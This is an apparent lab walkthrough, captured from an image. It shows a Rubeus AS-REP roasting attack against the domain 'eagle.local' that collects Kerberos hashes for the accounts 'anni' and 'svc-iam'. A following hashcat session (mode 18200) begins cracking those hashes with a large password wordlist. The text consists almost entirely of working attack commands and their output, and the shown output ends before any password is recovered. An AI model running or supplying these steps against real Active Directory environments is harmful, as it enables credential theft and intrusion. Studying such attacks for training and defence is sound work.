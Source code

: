 ```powershell
PS C:\WINDOWS\system32> cd "C:\Users\bob\Downloads\"
PS C:\Users\bob\Downloads> .\Rubeus.exe asreproast /outfile:"C:\Users\bob\Desktop\asrep.txt"

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.1


[*] Action: AS-REP roasting

[*] Target Domain          : eagle.local

[*] Searching path 'LDAP://DC1.eagle.local/DC=eagle,DC=local' for '(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304))'
[*] SamAccountName         : anni
[*] DistinguishedName      : CN=anni,OU=EagleUsers,DC=eagle,DC=local
[*] Using domain controller: DC1.eagle.local (172.16.18.3)
[*] Building AS-REQ (w/o preauth) for: 'eagle.local\anni'
[+] AS-REQ w/o preauth successful!
[*] Hash written to C:\Users\bob\Desktop\asrep.txt

[*] SamAccountName         : svc-iam
[*] DistinguishedName      : CN=svciam,OU=Detections,OU=EagleUsers,DC=eagle,DC=local
[*] Using domain controller: DC1.eagle.local (172.16.18.3)
[*] Building AS-REQ (w/o preauth) for: 'eagle.local\svc-iam'
[+] AS-REQ w/o preauth successful!
[*] Hash written to C:\Users\bob\Desktop\asrep.txt

[*] Roasted hashes written to : C:\Users\bob\Desktop\asrep.txt
```

#### hashcat

```powershell
PS C:\Tools\hashcat-6.2.6> cd C:\Tools\hashcat-6.2.6
PS C:\Tools\hashcat-6.2.6> .\hashcat.exe -m 18200 -a 0 "C:\Users\trustinveritas\Desktop\asrep.txt" "C:\Tools\SecLists\SecLists-2025.1\Passwords\xato-net-10-million-passwords.txt" --outfile="C:\Users\trustinveritas\Desktop\asrepcrack.txt" --force
hashcat (v6.2.6) starting

You have enabled --force to bypass dangerous warnings and errors!
This can hide serious problems and should only be done when debugging.
Do not report hashcat issues encountered when using --force.

OpenCL API (OpenCL 3.0 WINDOWS) - Platform #1 [Intel(R) Corporation]
====================================================================
* Device #1: 12th Gen Intel(R) Core(TM) i9-12900H, 8159/16382 MB (4095 MB allocatable), 6MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 2 digests; 2 unique digests, 2 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Not-Iterated

```